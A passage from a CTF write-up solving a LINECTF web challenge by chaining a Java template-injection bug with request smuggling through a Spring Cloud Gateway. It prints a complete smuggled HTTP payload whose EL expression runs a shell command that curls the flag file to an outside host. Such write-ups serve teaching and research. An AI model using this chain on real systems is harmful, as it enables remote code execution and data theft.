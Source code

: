 The vulnerable part of the code is in the `/api/internal` of the internal app:
```java
public class NameValidator implements ConstraintValidator<ValidateName, String> {
    private static final String REGEX_NAME = "^[a-f\\d]{32}$";
    private static final Pattern PATTERN = Pattern.compile(REGEX_NAME);

    @Override // javax.validation.ConstraintValidator
    public boolean isValid(String value, ConstraintValidatorContext context) {
        if (StringUtils.isEmpty(value) || PATTERN.matcher(value).matches()) {
            return true;
        }
        context.buildConstraintViolationWithTemplate(String.format("%s", value)).addConstraintViolation();
        return false;
    }
}
```

Where buildConstraintViolationWithTemplate is vulnerable to [server side template injection](https://securitylab.github.com/advisories/GHSL-2020-028-netflix-titus/). We can get a payload from [hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/el-expression-language.md), and we confirm that it works.

Now, the challenge is to actually send the payload to the internal app. We can't do that directly, as the internal app is only accessible from the gateway. We can use the gateway to send the payload to the internal app. I saw that the gateway was using `spring-cloud-gateway-core-2.1.1`, and that there is a CVE that applies to future versions which is related to [request injection](https://github.com/advisories/GHSA-2r2v-q399-qq93). So I crafted a payload using `Transfer-encoding: chunked` to send the payload to the internal app, and it worked!

Payload:
```
PUT /api/external HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Connection: close
Transfer-encoding:  chunked

11e
POST /api/internal/ HTTP/1.0
Host: localhost
Content-Type: application/json
Content-Length: 180

{"name":"${\"\".getClass().forName(\"java.lang.Runtime\").getMethods()[6].invoke(\"\".getClass().forName(\"java.lang.Runtime\")).exec(\"curl -d@/FLAG 06sjnkhn.requestrepo.com\")}"}
0
```

**LINECTF{7988de328384f8a19998923a87aa053f}**

<a name="hhhhhhhref"></a>
## hhhhhhhref (257 pts, 12 solves) - Web
